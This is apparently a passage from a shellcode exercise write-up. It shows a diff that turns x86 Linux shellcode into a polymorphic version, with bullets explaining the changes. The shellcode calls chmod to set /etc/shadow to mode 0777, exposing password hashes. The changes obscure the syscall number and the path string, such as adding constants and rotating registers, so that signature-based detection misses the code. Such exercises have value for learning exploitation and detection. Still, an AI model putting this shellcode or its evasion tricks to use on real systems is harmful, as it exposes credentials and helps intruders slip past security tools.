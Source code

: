 
The differences between the original version and the polymorphic version are:

    
    --- orig.asm	2014-05-12 11:21:18.092950797 +0200
    +++ poly.asm	2014-05-12 11:21:10.639951300 +0200
    @@ -1,14 +1,19 @@
     global _start
     section .text
     _start:
    -	xor eax,eax
    -	push eax
    -	mov al,0xf
    -	push 0x776f6461
    -	push 0x68732f63
    -	push 0x74652f2f
    +	cdq
    +	mov al,0xe
    +	inc al
    +	push edx
    +	mov edx,0x655c5150
    +	add edx,0x12131311
    +	push edx
    +	mov edx,0x2f636873
    +	rol edx,16
    +	push edx
    +	mov dword [esp-4],0x74652f2f
    +	sub esp,4
     	mov ebx,esp
    -	xor ecx,ecx
     	mov cx,0x1ff
     	int 0x80
     	inc eax





	
  * instead of using the exact syscall number i moved inside the register (syscall-1 ) and then i incremented it (0xe+1=0xf )

	
  * instead of directly pushing /etc/shadow  i used three different methods:

	
    * I moved inside edx  the value 0x655c5150 and then I added 0x12131311 to it (the result is 0x776f6461 which correspond to _woda_)

	
    * I moved inside edx  the value 0x2f636873 and then i left-rotated of 16 bits this value before pushing it onto the stack (0x2f636873 become 0x68732f63 which correspond to _hs/c_)

	
    * Instead of directly pushing the last value (0x74652f2f which correspond to _te//_) onto the stack I chose to use the mov  instruction to move the value using the esp  register. Please note that while the push instruction adjust the stack pointer automatically, if we use the mov  instruction we need to manual adjust the stack pointer using sub esp,4
